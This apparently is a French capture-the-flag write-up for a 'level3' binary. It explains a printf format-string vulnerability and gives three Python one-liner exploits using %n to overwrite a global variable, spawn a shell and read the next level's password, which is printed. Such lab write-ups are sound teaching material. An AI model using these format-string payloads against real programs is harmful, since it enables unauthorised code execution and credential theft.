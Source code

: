 Read also: [./Resources/README.md](./Resources/README.md)

# Source

https://dogbolt.org/?id=b1a5a447-06b3-402d-a740-453263922d7a 

```c
void v(void)
{
  char local_20c [520];
 
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  if (m == 64) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
  return;
}

void main(void)
{
  v();
  return;
}
```

# Explication

On va utiliser `%n` pour écrire dans la mémoire.

>  - %n: The number of characters written so far is stored into the integer indicated by the corresponding argument.

Voir aussi : https://www.geeksforgeeks.org/g-fact-31/ 

## 1ere solution

Pour atteindre la position de notre buffer dans printf, on doit utiliser le 4eme argument (c’est pour ça qu’on met 3 `%p`).
La position en nombre d’argument est obtenue en faisant : `aaaaaaaaaaa %p %p %p %p %p %p %p %p`, et on prend le premier
élément contenant plein de 0x61 (= 97, code ascii de la lettre a).

4 + 25 (=> final size of `%p %p %p`) + 35 = 64

```
(gdb) p &m
$1 = (<data variable, no debug info> *) 0x804988c

$ (python -c "print('\x8c\x98\x04\x08%p%p%p' + 'a' * 35 + '%n')"; cat) | ./level3
�0x2000xb7fd1ac00xb7ff37d0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

## 2eme solution

D’après le man : https://man7.org/linux/man-pages/man3/printf.3.html et https://axcheron.github.io/exploit-101-format-strings/
*"We can specify a postion to read/write on the stack with %<num>$n"*, on obtient l'alternative suivante :

On peut écrire dans le 4ème argument avec `%4$n` au lieu de `%p %p %p %n` :

```
(python -c "print('\x8c\x98\x04\x08' + 'a' * 60 + '%4\$n')"; cat) | ./level3
```

## 3eme solution

On peut directement faire un padding avec le formatstring de printf (`%60x`). On obtient :

```
(python -c "print('\x8c\x98\x04\x08%60x%4\$n')"; cat) | ./level3
```
